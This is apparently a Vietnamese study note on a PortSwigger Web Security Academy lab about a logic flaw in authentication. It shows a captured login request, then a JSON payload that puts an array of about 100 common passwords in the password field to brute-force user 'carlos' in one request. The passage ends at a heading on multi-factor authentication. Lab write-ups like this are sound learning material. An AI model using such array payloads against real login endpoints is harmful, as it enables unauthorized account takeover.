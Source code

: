 Ví dụ lỗi logic trong triển khai  : 

Ở dưới back end , nhập 1 `json` từ phía client gửi lên , bao gồm mật khẩu và usernaame 

```sql
POST /login HTTP/2
Host: 0a59008904fb912684ffe260002c00f5.web-security-academy.net
Cookie: session=N0QaqeaDVpmukvTKKpkUZQNCkGCTQhBF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a59008904fb912684ffe260002c00f5.web-security-academy.net/login
Content-Type: application/json
Content-Length: 36
Origin: https://0a59008904fb912684ffe260002c00f5.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"wiener","password":"peter"}
```

 

Sẽ ra sao nếu mình gửi mình có thể truyền 1 array vào vào giá trị password  

```sql
{"username":"carlos","password":[
    "123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111", "1234567", "dragon",
    "123123", "baseball", "abc123", "football", "monkey", "letmein", "shadow", "master", "666666", "qwertyuiop",
    "123321", "mustang", "1234567890", "michael", "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000",
    "qazwsx", "123qwe", "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster", "soccer",
    "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000", "charlie", "robert", "thomas", "hockey",
    "ranger", "daniel", "starwars", "klaster", "112233", "george", "computer", "michelle", "jessica", "pepper", "1111",
    "zxcvbn", "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753", "aaaaaa", "ginger",
    "princess", "joshua", "cheese", "amanda", "summer", "love", "ashley", "nicole", "chelsea", "biteme", "matthew",
    "access", "yankees", "987654321", "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor",
    "monitoring", "montana", "moon", "moscow"
  ]
```

### **Multi-factor authentication**
